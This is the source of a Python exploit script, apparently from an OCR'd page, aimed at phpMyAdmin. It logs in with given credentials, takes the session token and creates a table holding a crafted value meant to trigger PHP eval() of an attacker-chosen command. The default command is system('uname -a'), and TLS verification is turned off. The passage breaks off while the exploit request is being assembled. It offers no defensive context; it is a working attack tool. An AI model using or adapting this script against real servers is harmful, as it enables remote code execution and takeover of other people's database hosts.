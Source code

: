 ```python
import requests
import argparse
import sys

__author__ = "@iamsecurity"

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("url", type=str, help="URL with path to PMA")
    parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
    parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
    parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
    parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
    parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
    arguments = parser.parse_args()
    url_to_pma = arguments.url
    uname = arguments.user
    upass = arguments.pwd
    if arguments.dbs:
        db = arguments.dbs
    else:
        db = "test"
    token = False
    custom_table = False
    if arguments.table:
        custom_table = True
        table = arguments.table
    else:
        table = "prgpwn"
    if arguments.cmd:
        payload = arguments.cmd
    else:
        payload = "system('uname -a');"

    size = 32
    s = requests.Session()
    # you can manually add proxy support it's very simple ;)
    # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
    s.verify = False
    sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
    INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
    '''.format(table)

    # get_token
    resp = s.post(url_to_pma + "/?lang=en", dict(
        pma_username=uname,
        pma_password=upass
    ))
    if resp.status_code is 200:
        token_place = resp.text.find("token=") + 6
        token = resp.text[token_place:token_place + 32]
    if token is False:
        print("Cannot get valid authorization token.")
        sys.exit(1)

    if custom_table is False:
        data = {
            "is_js_confirmed": "0",
            "db": db,
            "token": token,
            "pos": "0",
```